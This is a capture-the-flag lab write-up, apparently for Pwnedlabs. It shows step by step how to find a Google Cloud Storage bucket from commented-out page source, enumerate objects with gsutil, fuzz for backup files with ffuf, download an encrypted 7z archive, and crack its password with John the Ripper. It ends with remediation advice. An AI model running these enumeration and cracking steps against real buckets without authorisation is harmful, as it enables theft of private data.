 ## **Reveal Hidden Files in Google Storage**


![](https://i.imgur.com/oHc3KrJ.png)


- Visiting the domain hosted with Google cloud (https://careers.gigantic-retail.com/index.html)
- Wappalyzer shows it is truly hosted in GCP


![[Pasted image 20250905231429.png]]

- Viewing page source discovered a commented storage image path 

```js
<!--                    <div class="right-image">
                        <img src="https://storage.googleapis.com/it-storage-bucket/images/retail1.jpg" alt="Career Image">
                    </div> -->
```

For further enumeration install google cloud cli from [here](https://cloud.google.com/sdk/docs/install-sdk)


- Login to G-cloud

```
 gcloud auth login

Your browser has been opened to visit:

    https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=TwdT2cshR2ovPO71xl6vLzKzy4fZ9n&access_type=offline&code_challenge=6KHmXYqGgs_oDLy12_w6P895_dSPF_iI360bCo--ZiDQ&code_challenge_method=S256

Opening in existing browser session.

You are now logged in as [ol*******@gmail.com].
Your current project is [None].  You can change this setting by running:
  $ gcloud config set project PROJECT_ID
```


- Listing bucket content with google cli = access denied error

```bash
secfortress@sh3llz ~/GCP_Hacking> gcloud storage buckets list gs://it-storage-bucket/

ERROR: (gcloud.storage.buckets.list) [ol******@gmail.com] does not have permission to access b instance [it-storage-bucket] (or it may not exist): ol******@gmail.com does not have storage.buckets.get access to the Google Cloud Storage bucket. Permission 'storage.buckets.get' denied on resource (or it may not exist). This command is authenticated as ol******@gmail.com which is the active account specified by the [core/account] property.

```


- Listing bucket content with google storage utility = access denied error also

```bash
secfortress@sh3llz ~/GCP_Hacking [1]> gsutil ls gs://it-storage-bucket/

AccessDeniedException: 403 ola******@gmail.com does not have storage.objects.list access to the Google Cloud Storage bucket. Permission 'storage.objects.list' denied on resource (or it may not exist).
```


- The stat command list info about object URLs also (good for enumeration purposes)

```bash
secfortress@sh3llz ~/GCP_Hacking [1]> gsutil stat gs://it-storage-bucket/index.html

gs://it-storage-bucket/index.html:
    Creation time:          Tue, 26 Dec 2023 17:16:02 GMT
    Update time:            Tue, 26 Dec 2023 20:16:06 GMT
    Storage class:          STANDARD
    Content-Length:         11407
    Content-Type:           text/html
    Hash (crc32c):          NQiHAw==
    Hash (md5):             rIHCYQzSUEHllo04PfXd0w==
    ETag:                   CMTu57HNrYMDEAI=
    Generation:             1703610962016068
    Metageneration:         2
secfortress@sh3llz ~/GCP_Hacking> gsutil stat gs://it-storage-bucket/index.css

You aren't authorized to read gs://it-storage-bucket/index.css - skipping
No URLs matched: gs://it-storage-bucket/index.css
secfortress@sh3llz ~/GCP_Hacking [1]> gsutil stat gs://it-storage-bucket/js/main.js

gs://it-storage-bucket/js/main.js:
    Creation time:          Tue, 26 Dec 2023 14:33:11 GMT
    Update time:            Tue, 26 Dec 2023 20:27:02 GMT
    Storage class:          STANDARD
    Content-Length:         1924
    Content-Type:           text/javascript
    Hash (crc32c):          02RNaw==
    Hash (md5):             9npVfXhpiN8qVRqKK9M2mA==
    ETag:                   CIqY4P6orYMDEAI=
    Generation:             1703601191259146
    Metageneration:         2

```


- Although there is no sensitive output from the previous command
- It is possible to fuzz for sensitive files in the storage bucket using `ffuf`
- Download the given wordlist with the below command

```bash
wget https://raw.githubusercontent.com/xajkep/wordlists/master/discovery/backup_files_only.txt
```


Then fuzz the storage bucket with the below command

```bash
# -w : wordlist file
# -u : URL of storage bucket
# -c : colorize output
ffuf -w backup_files_only.txt -u https://storage.googleapis.com/it-storage-bucket/FUZZ -mc 200 -c
```

> PS: you don't need to always use `ffuf`, any tool that does the work faster and efficient


```bash
secfortress@sh3llz ~/GCP_Hacking> ffuf -w backup_files_only.txt -u https://storage.googleapis.com/it-storage-bucket/FUZZ -mc 200 -c

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://storage.googleapis.com/it-storage-bucket/FUZZ
 :: Wordlist         : FUZZ: /home/secfortress/GCP_Hacking/backup_files_only.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

backup.7z               [Status: 200, Size: 22072, Words: 102, Lines: 101, Duration: 367ms]
:: Progress: [1015/1015] :: Job [1/1] :: 136 req/sec :: Duration: [0:00:08] :: Errors: 0 ::
```


- Then use the `gsutil` command to download the `.7z` file locally

```bash
secfortress@sh3llz ~/GCP_Hacking> gsutil cp gs://it-storage-bucket/backup.7z .

Copying gs://it-storage-bucket/backup.7z...
- [1 files][ 21.6 KiB/ 21.6 KiB]                                                
Operation completed over 1 objects/21.6 KiB.
```


- The` .7`z file is encrypted
- Grab the hash file with `7z2john` to crack with `JtR`


```
┌──(secfortress㉿sh3llz)-[~/GCP_Hacking]
└─$ 7z2john backup.7z >> hash.txt
ATTENTION: the hashes might contain sensitive encrypted data. Be careful when sharing or posting these hashes

```


- Now crack with `johntheripper`


```bash
secfortress@sh3llz ~/GCP_Hacking> john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip archive encryption [SHA256 256/256 AVX2 8x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 3 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Cost 4 (data length) is 21837 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
balance          (backup.7z)     
1g 0:00:01:43 DONE (2025-09-06 00:03) 0.009692g/s 124.6p/s 124.6c/s 124.6C/s rainbow2..wendel
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

> The hash cracking process was successful, Password is: **"balance**

Then decrypt the file using the `7z` utility

```bash
secfortress@sh3llz ~/GCP_Hacking> 7z x backup.7z 

7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
 64-bit locale=en_US.UTF-8 Threads:12 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 22072 bytes (22 KiB)

Extracting archive: backup.7z
--
Path = backup.7z
Type = 7z
Physical Size = 22072
Headers Size = 232
Method = LZMA2:16 7zAES
Solid = +
Blocks = 1

    
Enter password (will not be echoed):
Everything is Ok

Files: 2
Size:       54193
Compressed: 22072

```


The retrieve file contains sensitive PII and a flag for the platform; **_Pwnedlabs_**


![[Pasted image 20250906001003.png]]


## **Remediation**


- Use a single purpose bucket for web hosting 
- Redact the name of the Google Storage bucket that was hosting the website.
- Store sensitive archives in a private bucket
- Use strong and complex passwords for encrypted files
- Use per-project random codenames such as `deltaorangestouchdown-prod` to name the buckets.


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>